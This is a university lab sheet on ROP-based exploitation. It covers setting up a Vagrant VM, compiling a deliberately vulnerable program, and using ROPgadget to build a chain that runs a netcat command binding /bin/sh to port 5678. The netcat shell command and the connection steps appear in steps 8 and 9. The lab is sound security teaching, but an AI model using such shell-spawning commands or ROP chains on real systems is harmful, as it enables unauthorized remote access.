 # Lab 4 - ROP based Exploitation

**Task 1**: Exploit the program and use ROPgadget to generate a ROP shellcode.

**Task 2**: Write using ROPgadget a custom shellcode to spawn a reverse shell.

Setting up the environment:  

1. Here's a Vagrant file for this weeks lab that we have tested.

```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|
  config.vm.define "box" do |box|
                box.vm.box = "ubuntu/bionic64"
                box.vm.hostname = "lab4-box"
                box.vm.provider "virtualbox" do |virtualbox|
        virtualbox.name="lab4-box"
    end
 end
end
```

Run the usual `vagrant up` to bring the VM up, and `vagrant ssh` to login.  Your current folder will be mounted in `/vagrant` as before.
You'll need to install some extra dependencies for this lab to get going comfortably.  From a shell:

```
sudo apt update
sudo apt install -y python3-pip gdb gcc-multilib
pip3 install capstone
```

1.  Download ROPGadget and install from: [URL](https://github.com/JonathanSalwan/ROPgadget). Its a github repo, so you can either clone it or (suggested) simple use "Download zip" option. 
2.  Download netcat (the latest release of netcat that comes pre-installed in Ubuntu has removed a particular option (-e) that we need.
Having said that, official netcat release still shipped with that option! So, we are not completely artificial ;). [URL:](https://sourceforge.net/projects/netcat/). However, the same is also avaialble [here](../code/nc071.tar.gz).
3.  untar it and build: `./configure` and `make` command (**do not do** *make install*!)
4.  move `src/netcat` to `/tmp/nc`: `cp src/netcat /tmp/nc` (check if the binary is working as expected `/tmp/nc --help`).
5.  Compile [vuln3.c](../code/vuln3.c) as `gcc -fno-stack-protector -m32 -static vuln3.c -o vuln3-32`
6.  Find the amount of padding you'll need to overflow the buffer and start overwriting the saved return address.
7.  Use ROPgadget to build a ROP shellcode. 

		ROPgadget --binary vuln3-32 --ropchain > out-rop.txt
		
   Have a look at `out-rop.txt`.  You'll see that at the bottom there is a Python program which you can complete to generate your shellcode exploit (in particular the buffer padding).  Run the program generate the exploit and test it works with the vulnerable program.

8.  The shellcode in the previous step execve'd `/bin/sh`.  This time we'd like you to run the following command:

		/tmp/nc -lnp 5678 -tte /bin/sh

   This command will spawn a reverse-shell server listening on localhost port 5678 that feeds all the input it gets into `/bin/sh`.  Effectively enabling you to run programs remotely!
We're giving helper files to consult which provide a similar exploit for a different machine: [exploit-nc.py](https://github.com/cs-uob/COMSM0049/blob/master/docs/2021/code/exploit-nc.py), but you'll need to get it working on *your* machine.  In particular the gadgets, configuration and Python version may be different!

9.  Once successful, open another terminal and type:  
```
/tmp/nc 127.0.0.1 5678
pwd
```
You've got a reverse shell!

# Hints

1.  To figure out the padding needed to overflow the buffer try using binary search.  If you run `perl -e 'print "A"x124, "DCBA"' >input` you can quickly test different inputs. What would you expect to see when you have correctly got control of the return address?  What would you expect to see if you've gone too far compared to not far enough?
2.  Can't concatenate strings and bytes?  Just use bytes! `bytes("Your string", "ascii")`.
3.  The calling convention for a system call on 32bit X86 Linux is: `eax` syscall number, `ebx,ecx,edx,esi,edi,ebp` arguments as required.
4.  Try and get the exploit chain running first!  Break on the first gadget (In GDB: `b *0x08BLABLA`) and check it is working as expected.  Are things going into the right registers? (In GDB: `si`: step instruction, `i r`: info registers)
5.  Once you're convinced the ROP chain is running the `strace` tool is very helpful to debug what system calls *actually* get made by your program.  The `-v` flag will show all the arguments to system calls, `-e trace=execve` to just show `execve` calls.  Does the call look like what you'd expect?  You may have to add some new code to your exploit to get it working if the memory you're using isn't clean!

# Optional bonus

- Get the `nc` exploit going in 64-bit mode too!  Is it easier or harder?
- Have a play at using [pwntools](https://docs.pwntools.com/en/stable/) to write your exploit instead of ROPgadget.  Is it easier? Harder?
- Have a go at a return to libc exploit as discussed in the lecture.  You'll need to defeat ASLR for this one.

